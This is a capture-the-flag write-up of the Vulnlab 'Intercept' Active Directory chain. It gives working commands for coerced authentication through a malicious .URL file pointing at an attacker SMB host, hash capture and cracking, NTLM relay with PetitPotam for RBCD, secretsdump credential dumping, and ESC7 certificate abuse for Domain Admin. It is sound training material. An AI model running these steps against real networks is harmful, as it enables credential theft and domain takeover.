 ```yaml
---
title: Vulnlab Chain - Intercept
date: 2024-02-19
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Chain - Intercept
Intercept is a hard rated chain which contains two machines WS01 and DC01. The chain starts with forced authentication using a file upload to grab a users hash. Using this user we performed the Resourced Based Contrained Delegation (RBCD) WebClient attack to escalate privileges. Finally using ESC7 we elevate privileges to Domain Admin.

![_install](/assets/img/VL-Intercept/intercept_slide.png)

## Initial Access
Starting off I added the following to the /etc/hosts file:
```bash
10.10.185.69 intercept.vl
10.10.185.69 DC01.intercept.vl
10.10.185.70 WS01.intercept.vl
```

I started off with some nmap scans and quickly noticed that it was possible to access the dev share using a null session.
![_install](/assets/img/VL-Intercept/null_session_dev.png)

Using this null session I entered the "dev" share and looked through the directories for interesting information.

![_install](/assets/img/VL-Intercept/null_session_dev_2.png)

Something that stood out to me is that there is a "readme.txt" file which says that the share is checked regulary for updates. This for me immediately triggered "coerced authentication". We can craft a malicious .URL file that triggers an authentication request to our SMB listener when someone accesses the share. We can then attempt to relay or crack the authentication request. I crafted the following .URL payload:

```bash
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.8.0.49\%USERNAME%.icon
IconIndex=1
```
And uploaded it to the share using an smbclient session:

![_install](/assets/img/VL-Intercept/file_upload.png)

Next, I set up Responder with an SMB listener to capture the NTLMv2 hash of the Kathryn.Spencer Domain User:

![_install](/assets/img/VL-Intercept/responder.png)

Sadly I can't relay the connection to the Domain Controller because SMB Signing is enabled. However I always make sure to check this using netexec:

![_install](/assets/img/VL-Intercept/signing_enabled.png)

Despite SMB Signing being enabled by default on the Domain Controller, which prevents direct connection relaying, I decided to attempt cracking the hash with hashcat:

```bash
hashcat -a 0 -m 5600 hash.txt /opt/rockyou.txt
```
This succesfully recovered the password which ended up being "Choclate1". 
![_install](/assets/img/VL-Intercept/cracked_hash.png)

## Domain Enumeration
Now that we have a valid Domain account we can enumerate the domain using bloodhound. Let's run the python remote ingestor to collect some data:

```bash
bloodhound.py -d intercept.vl -v --zip -c All -dc DC01.intercept.vl -ns 10.10.185.69 -u 'Kathryn.spencer' -p 'Chocolate1' --dns-timeout 10
```
![_install](/assets/img/VL-Intercept/bloodhound.png)

The user Kathryn.Spencer doesn't have any interesting outbound permissions.

![_install](/assets/img/VL-Intercept/bloodhound_enum.png)

I enumerated the Domain more and figured out that the MachineAccountQuota has the default setting of "10".
![_install](/assets/img/VL-Intercept/maq.png)

And also figured out that the Domain Controller doesn't have LDAP Signing enforced:

![_install](/assets/img/VL-Intercept/ldap_signing.png)

If the WebDAV service is also enabled we can perform an RBCD WebClient attack using coerced authentication such as PetitPotam. Lets check if the WebDAV service is active using netexec:
![_install](/assets/img/VL-Intercept/webdav_client.png)

## RBCD WebClient Attack
Now that we know that the WebDAV service is active on WS01, LDAP Signing is disabled on the DC, and we can add machine accounts to the domain, we can abuse these conditions in combination with coerced authentication to escalate privileges. However, when relaying our coercion and add RBCD permissions to WS01 the authenticated connection has to originate from a trusted intranet zone. Luckly for us by default the "Authenticated Users" group can create child objects on the ADIDNS zone. Lets start off the attack by create a new A-record which points to our machine using dnstool.py:
```bash
dnstool.py -u 'intercept\kathryn.spencer' -p 'Chocolate1' -a add -r kali -d 10.8.0.49 10.10.185.69
```
![_install](/assets/img/VL-Intercept/dnstool.png)
Next is starting ntlmrelayx for relaying the coerced authentication:
```bash
ntlmrelayx.py -t ldaps://10.10.185.69 --delegate-access --http-port 8080 -smb2support
```
![_install](/assets/img/VL-Intercept/ntlmrelayx.png)
Finishing off we coerce authenticated using PetitPotam to our created DNS record which is in trusted intranet zone which gets relayed to the Domain Controller to allow impersonation on WS01$ via S4U2Proxy. We can trigger the coercion using PetitPotam like so:
```bash
petitpotam.py -d "intercept.vl" -u "kathryn.spencer" -p "Chocolate1" kali@8080/a 10.10.185.70
```
![_install](/assets/img/VL-Intercept/petitpotam.png)

And if we now take a look at ntlmrelayx we see that a new computer has been created which allows us the impersonate users via S4U2Proxy:
![_install](/assets/img/VL-Intercept/relay_ok.png)

Next we request a TGT for the CIFS service as the Administrator on the WS01 computer using getST.py:
```bash
getST.py -spn cifs/WS01.intercept.vl -dc-ip 10.10.185.69 -impersonate administrator intercept.vl/PMZKVLGA$:'.Wpkn,gC7Xpd}9S'
```
![_install](/assets/img/VL-Intercept/TGT.png)

Now we export the TGT in memory and run secretsdump.py to obtain logon information.
```bash
export KRB5CCNAME=administrator@cifs_WS01.intercept.vl@INTERCEPT.VL.ccache 
secretsdump.py administrator@WS01.intercept.vl -k -no-pass
```
![_install](/assets/img/VL-Intercept/secretsdump1.png)
This reveals the password of the user Simon_Bowen. Lets check bloodhound if this user have any interesting permissions which we can abuse. Lookup at the output we can see that the user is member of the helpdesk groups which has GenericAll permissons on the ca-managers group. 

![_install](/assets/img/VL-Intercept/perms1.png)

Now lets run certipy to find if this group have any intersting permissions:
```bash
certipy find -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69
```
Looking at the output we see that the ca-managers group has ManageCa permission on the Certificate Authority which makes it vulnerable to ESC7
![_install](/assets/img/VL-Intercept/esc7.png)

## AD CS Misconfiguration (ESC7)
To be able to abuse ESC7 we first need to add Simon.Bowen to the ca-managers group. This is possible because the group that he is part of (helpdesk) has GenericAll permissions on the group. We can add Simon to the group using net rpc:
```bash
net rpc group addmem 'ca-managers' 'Simon.Bowen' -U intercept.vl/Simon.Bowen -S DC01.intercept.vl 
```
To verify the user has been succesfully added to the group I re-ran bloodhound a confirmed Simon.Bowen is now part of the ca-managers group:
![_install](/assets/img/VL-Intercept/perms2.png)

Now that we have suffient permissions we can perform the ESC7 attack on the AD CS. First I added myself the Managed Certificated accces right by adding myself as a new officer:
```bash
 certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.183.85 -ca intercept-DC01-CA -add-officer simon.bowen
```
![_install](/assets/img/VL-Intercept/esc7-p1.png)
Now we check if the SubCA template can be enabled on the CA using the -enable-template parameter. By default the SubCA template is enabled.
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -list-template
```
![_install](/assets/img/VL-Intercept/esc7-p2.png)
Now that we have all the prerequisites for this attack we can start by request a certificate based on the SubCA template. This request will be benied but we will save the private key and note down the request ID:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -template 'SubCA' -upn administrator@intercept.vl -target intercept.vl
```
![_install](/assets/img/VL-Intercept/esc7-p3.png)

Having the manage certificate rights we can validate the failed request since we have the key:
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -issue-request 5
```
![_install](/assets/img/VL-Intercept/esc7-p4.png)
Now that we certificate is issued we can retrieve the administrator's certificate:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -target intercept.vl -retrieve 5
```
![_install](/assets/img/VL-Intercept/esc7-p5.png)

Now that we have a certificate of the administrator we can use it to authenticate and retrieve the NT hash:
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.185.69 -domain intercept.vl -username administrator
```
![_install](/assets/img/VL-Intercept/esc7-p6.png)

We can use this hash to gain access the the DC using netexec:
```
nxc smb DC01.intercept.vl -u Administrator -H ad95c338a6cc5729ae7390acbe0ca91f -x whoami
```
![_install](/assets/img/VL-Intercept/da_access.png)











